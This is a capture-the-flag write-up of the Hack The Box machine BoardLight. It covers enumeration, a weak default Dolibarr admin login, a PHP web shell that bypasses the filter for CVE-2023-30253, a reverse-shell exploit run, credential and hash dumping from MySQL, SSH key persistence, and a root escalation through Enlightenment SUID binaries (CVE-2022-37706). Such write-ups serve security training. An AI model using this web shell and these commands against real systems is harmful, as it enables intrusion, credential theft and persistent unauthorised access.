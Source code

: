 ### Initial Reconnaissance and Weak Credentials

I began BoardLight with a thorough port scan utilizing version detection and default Nmap scripts. 

```
sudo nmap 10.10.11.11 -p- -T4 -sV -sC -v 
```

The results expose ports 80 and 22. I added the the domain name to `/etc/hosts` and got started with directory and v-host enumeration. I also broadened my search by adding several extensions to my ffuf command. 

```
ffuf -u http://board.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -e ".php,.txt,.html" 
```

```
ffuf -u http://board.htb -H 'Host: FUZZ.board.htb' -w /usr/share/wordlists/subdomains/n0kovo_subdomains/n0kovo_subdomains_large.txt -fs 15949
```

I found a v-host. Upon visiting the URL I found a login page for Dolibarr v17.0.0, an open source ERP and CRM. To be safe, I started directory enumeration on this as well. I decided To make this command recursive, allowing it to run in the background while I searched for exploits and did manual exploitation. 

```
ffuf -u http://crm.board.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -e ".php,.txt,.html" -fs 312,313,314,315,316,317,318,319 -recursion -recursion-depth 3 | tee boardCRMRec.txt
```

After a ton of enumeration, a lot of XSS attempts, a ton of failed SQL injections, and a more than a little head scratching, I discovered that despite my careful enumeration and research, I had neglected to try the most simplistic means of entry. The login for the Admin account had a weak default password. Nonetheless, I had made progress!
### Exploitation of Dolibarr ERP/CRM (CVE-2023–30253)

 By this point, I had already found a fair number of exploits for authenticated users of this application. Now that I myself was authenticated, I went all out. [CVE-2023–30253](https://nvd.nist.gov/vuln/detail/CVE-2023-30253) describes an RCE exploit via uppercase manipulation when creating and deploying a website on Dolibarr v17.0.0 and below. I created a website using the application's web template feature and inserted a reverse shell using an uppercase `<?PHP` tag: 

```
    <html>
    <body>
    <form method="GET" name="<?PHP echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="TEXT" name="cmd" id="cmd" size="80">
    <input type="SUBMIT" value="Execute">
    </form>
    <pre>
    <?PHP
        if(isset($_GET['cmd']))
        {
            system($_GET['cmd']);
        }
    ?>
    </pre>
    </body>
    <script>document.getElementById("cmd").focus();</script>
    </html>
```

This bypasses the input filter that normally blocks lower-case `<?php` tags, allowing me to execute system commands on the server. However, a cleanup script hindered the manual approach. Fortunately, I found a [Python exploit](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253) for the same vulnerability, which successfully gained me a reverse shell.

```
python3 exploit.py http://crm.board.htb admin admin 10.10.14.8 4444
```

### Privilege Escalation

Now armed with a reverse shell, I looked for possible privilege escalations. I found a home directory for `larissa` and some interesting information in the config files for Dolibarr, specifically `/var/www/html/dolibarr/htdocs/conf/conf.php`.

```
dolibarrowner|ser................
```

With these credentials, I accessed the internal MySQL database to search for further information.

```
mysql -u dolibarrowner -p -e 'show databases;'
```

```
mysql -u dolibarrowner -p -e 'use dolibarr; show tables;'
```

I dumped the user table in search of password hashes.

```
mysql -u dolibarrowner -p -e 'use dolibarr; select * from llx_user;'   
```

```
dolibarr|$2y$10$VevoimSke5Cd1........................
admin|$2y$10$gIEKOl7VZ............................
```

Unfortunately, `dolibarr` doesn't crack and `admin` was a previously known password. What a dud! Not to worry though, I did find a new password and a new user on the way to this point, so why not check them against one another? 

```
ssh larissa@board.htb 
```

Feeling very pleased with myself, and with a shiny new ssh session, I added my own ssh key to the box.

```
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB4lAT7D0p6KMGywbYex6A3S/dZPA5ldthzqW48UgF0x kali@kali" > /home/larissa/.ssh/authorized_keys 
```

I also uploaded linpeas and ran it as a background process while I grabbed my user flag. 

```
scp ./linpeas.sh larissa@board.htb:/home/larissa/linpeas.sh 
```

```
./linpeas.sh > linpeas.txt 2> linpeas.txt &
```

### Privilege Escalation: CVE-2022-37706

After digging around and not finding much of use, I returned to linpeas to see what it had uncovered. Right away I noticed a possibly massive vulnerability in the sudo version 1.8.31, but it turned out to not be vulnerable in this configuration. Soon after, however, I saw these files with strange SUID permissions.

```
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID binary!)
```

  SUID binaries are risky because they run with elevated privileges. In this case,  [CVE-2022-37706](https://nvd.nist.gov/vuln/detail/CVE-2022-37706) exposes a local privilege escalation vulnerability due to improper pathname handling by the Enlightenment binaries. I found a [POC for this exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit), read through it, and uploaded it to the box. 

```
gh repo clone MaherAzzouzi/CVE-2022-37706-LPE-exploit
scp ./exploit.sh larissa@board.htb:/home/larissa/exploit.sh
```

I then made the script executable, and sat back while it did its job.

```
chmod +x exploit.sh
./exploit.sh
```

With root access obtained, I collected the root flag and completed the machine! This box challenged my assumptions, forcing me to revisit basic security weaknesses, like weak credentials. Despite modern security measures, misconfigurations in widely-used software like Dolibarr and old vulnerabilities in SUID binaries present significant risks in real-world environments. Overall I found myself wanting a bit more from this machine, but It was fun regardless!

